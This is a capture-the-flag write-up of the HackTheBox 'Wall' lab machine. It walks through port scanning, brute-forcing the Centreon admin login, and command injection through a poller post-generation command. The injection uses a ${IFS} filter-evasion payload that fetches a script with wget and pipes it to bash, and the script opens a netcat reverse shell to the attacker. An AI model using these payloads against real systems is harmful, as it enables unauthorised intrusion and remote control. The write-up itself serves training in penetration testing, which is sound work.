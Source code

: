 ```yaml
---
Title: HackTheBox Wall
Date: 2019-12-07
Category: Challenges
Status: published
---
```


Wall was as much a fun and educational box as it was frustrating and stretching my patience. It felt like the system was updated by the creator to have some features in place meant to annoy people trying to break in. Nevertheless, there are some nice WAF evasion techniques to consider here, as well as the lesson to never give up on enumeration Starting with a SYN scan, executing scripts where possible:

```sh
# nmap -sS -sC -v -oN wall.nmap 10.10.10.157

# Nmap 7.80 scan initiated Thu Dec  5 13:32:45 2019 as: nmap -sS -sC -v -oN wall.nmap 10.10.10.157
Increasing send delay for 10.10.10.157 from 0 to 5 due to 193 out of 642 dropped probes since last increase.
Nmap scan report for 10.10.10.157
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec  5 13:33:04 2019 -- 1 IP address (1 host up) scanned in 18.50 seconds
```

SSH seems to support password-based login - just taking a note here. Port 80 shows the default Apache HTML page. Nothing special. Firing up Dirbuster with a medium-sized wordlist brings up some interesting results, however.

![Screenshot]({attach}screenshot-from-2019-12-05-16-58-01.png){: .image-process-article-image}

The PHP files simply return boring hardcoded strings that don't carry any meaningful information:

![Screenshot]({attach}screenshot-from-2019-12-05-15-05-55.png){: .image-process-article-image}

`/monitoring/` looks interesting however. It has HTTP basic auth enabled. If we try different HTTP verbs on this endpoint, we find the following:

```sh
# curl -X POST http://10.10.10.157/monitoring/
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 146
Content-Type: text/html
Date: Thu, 05 Dec 2019 15:56:30 GMT
ETag: "9a-58ccea50ba4c6-gzip"
Keep-Alive: timeout=5, max=100
Last-Modified: Wed, 03 Jul 2019 22:47:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding

<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Basic authentication was only enabled for GET requests and we get a redirect page to `/centreon`, which, admittedly, was not part of my wordlist. :(

![Screenshot]({attach}screenshot-from-2019-12-05-16-57-05.png){: .image-process-article-image}

We directly see the version here, `19.04.0`. A quick Google search reveals an [authenticated remote code execution exploit](https://www.exploit-db.com/exploits/47069) is available. Noted. Now we just have to find a login. The default credentials, `admin:centreon` do not work. After having looked everywhere, losing a good two hours in the process, the only chance seems to be brute force. In the Centreon API documentation we find [a section on how to authenticate](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication). With that, let's fire up `wfuzz` and try some common passwords, assuming the default username, admin, has been kept in place.

```sh
$ wfuzz -w ../seclists/Passwords/Common-Credentials/10k-most-common.txt -c -d "username=admin&password=FUZZ" --hc 403 '10.10.10.157/centreon/api/index.php?action=authenticate'
********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 10000

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000621:   200        0 L      1 W      60 Ch       "password1"
```

That was quick. Now we can login. Checking out the functionality of Centreon, it is an application to monitor the state of hosts and manage infrastructure in general. The RCE code in the ExploitDB link above needed to be updated due to the additional sanitisation the challenge creator (who also is the exploit author!) added to the input field we need.

I'd like to show an additional exploit though, where you game the system with the functionality it already provides. As an admin you have permissions to edit pollers. A poller can have a post-generation command attached to it. This is probably used for initialisation in legitimate use cases. For us, this already carries all the RCE capabilities we need.

The input for the command to execute is sanitised and no spaces are allowed. We can easily circumvent this by referencing the [internal field separator](https://en.wikipedia.org/wiki/Internal_field_separator) variable in the shell environment we're later executing the command in. Our filled out command passing the WAF now looks like this:

![Screenshot]({attach}screenshot-from-2019-12-07-17-01-51.png){: .image-process-article-image}

For convenient copy-paste, that is:

```sh
wget${IFS}-qO-${IFS}http://10.10.14.13/legitfile${IFS}|${IFS}bash;
```

Our payload file we'll download with `wget` contains the following code:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f
```

At the same time we fire up a simple HTTP server and a netcat listener on our attacker machine. Now we head to the poller overview and edit the default one to include our new post-generation command. Then we export it's configuration. We don't even want to generate the config files here, just running the post generation command is enough. Our server and listener are already waiting.

![Screenshot]({attach}screenshot-from-2019-12-07-17-01-22.png){: .image-process-article-image}

Hitting export, we notice the post-generation command is freezing. This means we most likely got an open connection:

![Screenshot]({attach}screenshot-from-2019-12-07-17-01-01.png){: .image-process-article-image}

![Screenshot]({attach}screenshot-from-2019-12-07-17-01-10.png){: .image-process-article-image}

Our `id` is

```
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

And `/etc/passwd` shows an interesting entry where the user flag might be:

```
shelby:x:6001:6001::/home/shelby:/bin/bash
```

We don't have permissions to access the file. Using [LinEnum](https://github.com/rebootuser/LinEnum) for enumeration we stumble across some interesting versions, among them screen 4.5.0 for which we have a [local privilege escalation exploit](https://www.exploit-db.com/exploits/41154) available. From there all it took was downloading the code through the Python HTTP server, executing it, and using the root privileges to access the user and the root flag. Wow, that was a quick escalation after such a painstaking process of enumeration and getting the initial shell. But at least I have learned about `${IFS}` and some other means of bypassing filters for my future payloads.
